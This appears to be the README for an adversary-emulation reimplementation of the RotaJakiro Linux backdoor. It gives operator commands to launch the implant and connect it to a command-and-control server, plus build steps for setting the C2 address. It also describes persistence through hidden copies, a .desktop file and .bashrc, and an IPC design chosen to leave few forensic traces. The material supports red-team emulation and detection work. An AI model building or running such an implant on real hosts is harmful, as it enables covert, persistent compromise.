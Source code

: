 ## Rota

| Components | Use              | Description                                             |
|------------|------------------|---------------------------------------------------------|
| inc        | source code      | Header files for Rota Jakiro (rota) implant                    |
| src | source code | Source files for Rota Jakiro (rota) implant |
| utils | helperutilities| Files used for building [Stack Strings](https://attack.mitre.org/techniques/T1027/) in Rota |


## Description
[RotaJakiro](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)(Rota) is the Linux implant believed to be leveraged by Ocean Lotus. This repo contains the code to emulate the Linux implant based on threat reports listed in the references section below along with reverse engineering efforts by the ATT&CK team.

## Requirements
* Make
* gcc

## For Operators
### Execution
Upon building the artifact, execute the following command to start rota. The following command will create the persistence locations, and copy rota to the appropriate locations on the file system. By killing the "rota-release" initial binary, the watchdog process will then spawn the follow on proceses and connect to the C2 server.

``` sh
nohup ./rota-release&2>/dev/null; sleep 5; pkill rota-release
```


For the emulation plan, place the built version of Rota in the payloads directory with a name of "rota". Assuming the Ocean Lotus git repository is in your home directory, the following command can be executed:
```
cp rota-release ~/ocean-lotus/Resources/payloads/rota
cp so_mount.so ~/ocean-lotus/Resources/payloads/somount.so
cp so_pdf.so ~/ocean-lotus/Resources/payloads/sopdf.so
```

## For Developers
### Building
1. Modify Makefile to specify C2 server and C2 port

``` sh
#update Makefile here
C2_SERVER='"10.10.2.228"'
C2_PORT=1443
```

2. Run make to build release/debug executables and an example shared objection for exeuction

``` sh
$> make all
```

* Buidling with Docker (optional)
A Dockerfile is also provided to install a build environment and produce a rota executable. Since Rota is a dynamically compiled ELF binary, this ensure no glibc issues during execution.

``` sh
$> docker build . -t attack:rota; # build the container image
$> docker run --name rota attack:rota; # run the container image to produce the ELF executable
$> docker cp rota:/opt/bins/rota-release .; # copy rota to local directory
$> docker cp rota:/opt/bins/so_pdf.so .; # copy rota to local directory
$> docker cp rota:/opt/bins/so_mount.so .; # copy rota to local directory
```

Now that you have a built version of rota, follow the documentation in the Emulation plan to copy it to the destintion folder.

### Troubleshooting Docker Builds

If you've already executed a container with the name of "rota", an error similar to the one shown below will be displayed.
``` sh
docker: Error response from daemon: Conflict. The container name "/rota" is already in use by container "7d5835315af678be4499b816b20b137cd76f77987c81c18c50df70a4b819a206". You have to remove (or rename) that container to be able to reuse that name.
See 'docker run --help'.
```

To fix this, either change the name of the container you're running via:

``` sh
$> docker run --name rota2 attack:rota;
```

Or remove the old stopped container via:

``` sh
$> docker rm rota;
```

## Host Artifacts

## Persistence Overview
Upon initial launch of Rota, the binary checks whether or not its running as root, and then takes persistence actions baesd on this result. Non-root execution results in the rota binary being copied to ```$HOME/.gvfsd/profile/gvfsd-helper``` and ```$HOME/.dbus/.sessions/session-dbus```.
Corresponding lock files are also created which prevent's Rota from continously spawning (TODO: Netlab 360 citation here).

Non-root persistence is achieved via a modified ```.Desktop``` file (TODO: TID HERE) along with adding an entry to ```.bashrc```(TODO: TID HERE) which spawns ```gvfsd-helper``` on boot. (TODO: Netlab 360 citation here).

## IPC Overview

During execution, ```gvfsd-helper``` creates shared memory to communicate its pid to another RotaJakiro process, "```session-dbus```". Each process writes its pid to this shared memory location to ensure the other process will re-spawn it, should the process die. This "alive check" is achieved via checking for PID entries within ```/proc/```. If no entry exists, the surviving process will respawn the other.

### IPC Syscalls Explained

The RotaJakiro reports specify the use of shared memory via [POSIX Shared Memory functions](https://man7.org/linux/man-pages/man7/shm_overview.7.html). 
The implementation of Rotajakiro within this repo hereby referred to as "rota", uses ```shmget``` to create a key of ```0x64b2e2```with a memory allocation of 8 bytes.
This key and associated function ```shmget``` were chosen from reverse engineering RotaJakiro sample [0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32](https://www.virustotal.com/gui/file/0958e1f4c3d14e4de380bda4c5648ab4fa4459ef8f5daaf32bb5f3420217af32).
Notably, this function call **does not** create a file within ```/dev/shm/``` whereas ```shm_open``` does.  This limits the presence of additional file artifacts for DFIR professionals.

The function below demonstrates the creation of shared memory with the result being stored in variable shmid.

``` sh
int shmid = shmget(0x64b2e2, 8, IPC_CREAT | 0666);
```

The [ipcs](https://man7.org/linux/man-pages/man1/ipcs.1.html) utility can be used to inspect that the shared memory has been appropriately created.

```
$> ipcs

------ Shared Memory Segments --------
key        shmid      owner      perms      bytes      nattch     status
0x00000000 8          gdev       600        524288     2          dest
0x00000000 16         gdev       600        524288     2          dest
0x0064b2e2 20         gdev       666        8          0
```

To manually remove this key, execute the following command:

``` sh
ipcrm -M 0x0064b2e2
```

The 8 bytes created by ```shmget``` are then used to store both the main C2 process of Rotajakiro "```gvfsd-helper```" and the supplemental watch dog process "```session-dbus```".
The first four bytes store the process id belonging to ```gvfsd-helper```, and the last four store ```session-dbus```'s process id.

``` sh
[ gvfsd-pid ][ session-dbus ] // 8 bytes of memory
```


## References
* [RotaJakiro: A long lived secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)
* [RotaJakiro, The Linux version of Ocean Lotus](https://blog.netlab.360.com/rotajakiro_linux_version_of_oceanlotus/)
* [The New and Improved macOS Backdoor from Ocean Lotus](https://unit42.paloaltonetworks.com/unit42-new-improved-macos-backdoor-oceanlotus/)
